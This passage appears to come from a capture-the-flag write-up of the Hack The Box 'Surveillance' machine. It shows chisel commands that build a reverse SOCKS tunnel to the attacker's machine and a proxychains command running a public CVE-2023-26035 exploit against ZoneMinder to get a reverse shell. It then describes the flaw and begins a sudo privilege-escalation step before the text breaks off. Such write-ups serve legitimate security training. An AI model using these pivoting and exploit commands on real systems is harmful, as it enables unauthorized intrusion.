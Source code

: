 ```bash
#on Attacking machine 
./chisel_lin server -p 443 --reverse

#on Victim machine
./chisel_lin client 10.10.14.226:443 R:4444:127.0.0.1:4545
./chisel_lin server -p 4545 --socks5

#on the attacking machine 
./chisel_lin client localhost:4444 1081:socks
```
![Alt text](/assets/images/HTB/survellance/surv8.png)


After establishing the connection on my socks tunnel I am able to connect to the page hosted on localhost:8080 and that is when I realise that ***ZoneMinder*** more than an user its a service/software.

![Alt text](/assets/images/HTB/survellance/surv9.png)

Then i look for zoneminder exploits on google and I encounter with **CVE-2023-26035**: "Unauthenticated Remote Code Execution in ZoneMinder"
I wasn't able to find any type of information related to the version, but since it seemed to be a easy exploit to run i decided to give it a try. Also taking into account the year of the *CVE* it looked that it could be a possible way of attacking

The vulnerability lies in the way ZoneMinder handles the "snapshot" function. This function is supposed to capture an image from a connected security camera. However, due to a missing authorization check, *an attacker can manipulate this function to create a new monitor instead of fetching an existing one*. By crafting a specially crafted request, the attacker can inject malicious code that gets executed by the ZoneMinder server.

I found a working Exploit on [GitHub](https://github.com/rvizx/CVE-2023-26035):

```bash
proxychains python3 exploit-zone.py -t http://127.0.0.1:8080/ -ip 10.10.14.13 -p 445
```
***NOTE:*** This exploit did worked for me but for some reason not all the times, I had to ran it like 2-3 times for it to give me shell.

![Alt text](/assets/images/HTB/survellance/surv10.png)

This grants us shell access as the `zoneminder` user.


## Escalating to Root
I check if I have any sudo privileges with "ZoneMinder" user

![Alt text](/assets/images/HTB/survellance/surv11.png)

Checking for sudo privileges, we find that the zoneminder user can run scripts matching the pattern ***zm\*.pl in /usr/bin***:

 i look online for *"escalate priviles zoneminder zm.pl"* and i found an interesting [GitHub](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-h5m9-6jjc-cgmw) page talking about something related.
